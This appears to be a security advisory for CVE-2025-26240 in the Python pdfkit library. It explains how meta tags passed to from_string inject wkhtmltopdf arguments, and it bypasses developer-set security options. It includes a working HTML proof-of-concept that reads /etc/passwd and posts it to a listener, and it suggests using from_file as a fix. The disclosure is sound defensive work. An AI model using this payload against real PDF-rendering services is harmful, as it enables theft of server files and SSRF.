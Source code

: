 ﻿# **The *pdfkit* vulnerability (CVE-2025-26240)**
## **Summary**
The vulnerability in the pdfkit library is caused by parsing user-provided HTML in the `from_string` method, with no available options to mitigate the risk. The `from_string` method uses meta tags whose names start with “pdfkit-” and treats their values as command-line parameters for the `wkhtmltopdf` tool. This parsing is performed in the `_find_options_in_meta` method, located in the `pdfkit/pdfkit.py` file. While this functionality may be useful for certain use cases (such as setting the paper size), some `wkhtmltopdf` arguments pose security risks. 
## **Simple POC**
If we pass following html data into the `from_string` method we will be able to read the contents of the **/etc/passwd** file.

```html
<meta name='pdfkit---quiet' content=''>
<meta name='pdfkit---enable-local-file-access' content=''>
<meta name='pdfkit---post-file' content=''>
<meta name='pdfkit-file--a' content='/etc/passwd'>
<meta name='pdfkit-http://127.0.0.1:8080/?LFI-TEST=--' content='--cache-dir'>
<h1>LFI POC</h1>
```

There are a few constraints on the arguments that will be sent to wkhtmltopdf. The first is that the key must contain two dashes, which is why the last meta tag includes `--` in its name. The implementation of this check can be found in the `_normalize_options` method located in the `pdfkit/pdfkit.py` file.

```python
for key, value in list(options.items()):
    if '--' not in key:
        normalized_key = '--%s' % self._normalize_arg(key)
    else:
        normalized_key = self._normalize_arg(key) 
```

Due to insufficient validation, we are able to pass arguments that accept multiple values, not just key-value pairs. 

When we pass the example HTML file to the `from_string` method, we can see that the command generated and executed with the subprocess.Popen method is as follows:

`['/usr/local/bin/wkhtmltopdf', '--quiet', '--enable-local-file-access', '--post-file', 'file--a', '/etc/passwd', 'http://127.0.0.1:8080/?lfi-test=--', '--cache-dir', '-', '-']`

Resulting in following command:

`/usr/local/bin/wkhtmltopdf –quiet --enable-local-file-access --post-file file--a /etc/passwd http://127.0.0.1:8888/?lfi-test=-- --cache-dir - -`

This command sends the contents of the `/etc/passwd` file as an attachment in a POST request to `http://127.0.0.1:8888/?lfi-test=--` with the parameter `file--a`. The `--cache-dir` parameter is included solely to remove the extra dash added by the pdfkit library, ensuring that the wkhtmltopdf tool executes successfully.

When exploiting this vulnerability, we can observe that the contents of the `/etc/passwd` file are received on our Python listener.

![](/least-github-pages/assets/CVE-2025-26240-image-1.png)

In the same way, we can execute any JavaScript scripts by utilizing the `--script` command-line parameter, which runs the specified JavaScript code after generating the PDF, leading to SSRF and other potential vulnerabilities.
## **Bypass of pdfkit security measures**
The pdfkit library allows developers to provide an options dictionary for direct options that will be passed to `wkhtmltopdf`. The main issue is that these options can be easily bypassed due to Python’s way of handling dictionaries.

The options initialization is defined in `pdfkit/pdfkit.py` as follows:

```python
self.options = OrderedDict()
if self.source.isString():
    self.options.update(self._find_options_in_meta(url_or_file))
    self.environ = self.configuration.environ
    if options is not None:
        self.options.**update**(options)
```

The main issue is that Python preserves the order of keys when using the update method. For example, if we have the dictionary `{"a": 10, "b": 20}` and call update on it with `{"a": 15}`, the resulting dictionary will be `{"a": 15, "b": 20}`.

An attacker can always manipulate the order of command-line arguments sent to wkhtmltopdf. If a developer attempts to enforce security options such as `{"disable-javascript": "", "disable-local-file-access": ""}`, the attacker can set these options first and then override them by adding their counterparts, such as `enable-javascript` or `enable-local-file-access`. 
## **Easiest solution for developers**
The easiest solution to this vulnerability is probably to use other methods then `from_string`. For example developer can save the provided HTML to temporary file and then use `from_file` method, which doesn’t parse the meta tags. 

